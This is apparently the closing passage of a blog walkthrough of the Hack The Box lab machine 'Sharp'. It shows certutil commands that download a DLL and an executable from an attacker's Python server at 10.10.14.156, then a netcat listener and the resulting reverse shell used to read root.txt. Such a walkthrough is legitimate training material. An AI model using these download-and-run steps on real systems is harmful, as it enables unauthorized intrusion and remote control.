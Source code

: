 **Shell**
![Desktop View]({{ "/assets/img/htb-machines/sharp/36.png" | relative_url}})

let's build it
![Desktop View]({{ "/assets/img/htb-machines/sharp/37.png" | relative_url }})

now i have to send wcfclient.exe to lars but i cant send it through file-explorer

we can use this windows utility [link](https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/) start python server at port 80

```powershell
PS C:\dev> certutil -urlcache -split -f http://10.10.14.156:80/WcfRemotingLibrary.dll WcfRemotingLibrary.dll
****  Online  ****
  0000  ...
  1e00
CertUtil: -URLCache command completed successfully.
PS C:\dev> certutil -urlcache -split -f http://10.10.14.156:80/WcfClient.exe  WcfClient.exe
****  Online  ****
  0000  ...
  1600
CertUtil: -URLCache command completed successfully.

```
lets move it to documents folder

```ps
Move-Item -Path WcfRemotingLibrary.dll -Destination C:\Users\lars\Documents

Move-Item -Path WcfClient.exe -Destination C:\Users\lars\Documents

```
then start your netcat listener

![Desktop View]({{ "/assets/img/htb-machines/sharp/38.png" | relative_url }})
<br>
python server

![Desktop View]({{ "/assets/img/htb-machines/sharp/39.png" | relative_url }})

lets run wcfclient now
<br>
![Desktop View]({{ "/assets/img/htb-machines/sharp/40.png" | relative_url }})

Response at python server

![Desktop View]({{ "/assets/img/htb-machines/sharp/41.png" | relative_url }})

I got shell

![Desktop View]({{ "/assets/img/htb-machines/sharp/42.png" | relative_url }})

root.txt

![Desktop View]({{ "/assets/img/htb-machines/sharp/43.png" | relative_url }})

Thank you for reading my blog if you have any suggestions feel free to contact me on [twitter](https://twitter.com/softwareuser_).

